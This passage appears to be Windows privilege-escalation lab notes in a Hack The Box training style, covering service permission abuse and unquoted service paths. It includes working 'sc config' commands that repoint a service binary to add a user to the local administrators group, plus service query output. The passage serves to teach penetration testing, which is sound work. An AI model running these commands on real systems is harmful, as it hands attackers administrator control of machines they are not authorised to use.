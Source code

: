 ##### Changing the Service Binary Path

We can use our permissions to change the binary path maliciously. Let's change it to add our user to the local administrator group. We could set the binary path to run any command or executable of our choosing (such as a reverse shell binary).

``` batch
C:\htb> sc config WindscribeService binpath="cmd /c net localgroup administrators htb-student /add"

[SC] ChangeServiceConfig SUCCESS
```

``` batch
C:\htb> sc stop WindscribeService
```

Since we have full control over the service, we can start it again, and the command we placed in the `binpath` will run even though an error message is returned. The service fails to start because the `binpath` is not pointing to the actual service executable. Still, the executable will run when the system attempts to start the service before erroring out and stopping the service again, executing whatever command we specify in the `binpath`.

``` batch
C:\htb> sc start WindscribeService

[SC] StartService FAILED 1053:
 
The service did not respond to the start or control request in a timely fashion.
```



#### Unquoted Service Path

Windows will attempt to load the following potential executables in order on service start, with a .exe being implied:

- `C:\Program`
- `C:\Program Files`
- `C:\Program Files (x86)\System`
- `C:\Program Files (x86)\System Explorer\service\SystemExplorerService64`

##### Explanation

``` batch
C:\htb> sc qc SystemExplorerHelpService

[SC] QueryServiceConfig SUCCESS

SERVICE_NAME: SystemExplorerHelpService
        TYPE               : 20  WIN32_SHARE_PROCESS
        START_TYPE         : 2   AUTO_START
        ERROR_CONTROL      : 0   IGNORE
        BINARY_PATH_NAME   : C:\Program Files (x86)\System Explorer\service\SystemExplorerService64.exe
        LOAD_ORDER_GROUP   :
        TAG                : 0
        DISPLAY_NAME       : System Explorer Service
        DEPENDENCIES       :
        SERVICE_START_NAME : LocalSystem
```
